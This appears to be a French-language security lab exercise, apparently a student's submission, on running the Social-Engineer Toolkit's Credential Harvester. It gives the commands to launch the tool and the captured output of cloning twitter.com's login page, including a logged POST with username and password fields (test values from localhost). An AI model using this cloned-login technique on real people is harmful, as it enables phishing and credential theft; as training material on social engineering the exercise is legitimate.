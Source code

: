 ```
setoolkit
```

Dépendant de votre OS et de votre installation particulière, il est possible que certaines fonctionnalités ne soient pas disponibles au moins d'utiliser ```sudo```.

```
sudo setoolkit
```

# Exercice 1 - Credential Harvesting

Vous découvrirez l'un des outils les plus couramment utilisés par les ingénieurs sociaux et les acteurs malveillants pour tromper les cibles.

### Soumettre des captures d'écran

twitter.com
```
set:webattack> Enter the url to clone:twitter.com

[*] Cloning the website: http://twitter.com
[*] This could take a little bit...

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
127.0.0.1 - - [12/Mar/2020 17:11:50] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2020 17:11:52] "GET /sw.js HTTP/1.1" 404 -
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: redirect_after_login=/
PARAM: remember_me=1
PARAM: authenticity_token=2faa8c90647c11ea9ea127912f642a64
PARAM: wfa=1
PARAM: ui_metrics={"rf":{"a36a5e4cd0ce7c950adde072d6b20ee5b880b5b7c4f416145583a59eeb135183":238,"a8025fe27d3aeb7c064e4a88b16bc3bb4b45bdcecf2bbd27a1d4a8161d009eee":-111,"a2ea250455a15d8377bba40a4dc0c4345ee8153ac0340bb5cbaf2147679d5206":-1,"affe7996f317083a908cf9f424be4cf118102e81ce2082888957a5cbdcc062da":-112},"s":"MDEm84cgac2xQXk8SMNmARiuoOLDhfaRmsRN4XTb7q5Tnkl_ELfWJgKUpIwIJphia7zfhOBxs6k-BguEs_0jzy0AhiVC6Z3qtKrklXVed6KK8932N7j9wicPko9mCcxPSaIONWr_0wyQZ8qv5SR08EWyQGRW4a6hRk3ZPSqFX9P4Lcyd1ZSZZ-LS0i9oSHqGC26G83wR1ADOFc2sv7rxYbC8i4Ln24ttdDgeRUew6IFkHTl_k3gu_f7ExFDpoMJS0nl-TBdDTGzD4yALw8xZV7aDEQCh0rqwEHvhnvHykKanU9B8XgYUv_GFON5GeNdrl3kR6EWIF4yehVia3KzDcQAAAXDPhDqz"}
POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=root
POSSIBLE PASSWORD FIELD FOUND: session[password]=root
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.


127.0.0.1 - - [12/Mar/2020 17:11:58] "GET /favicon.ico HTTP/1.1" 404 -
```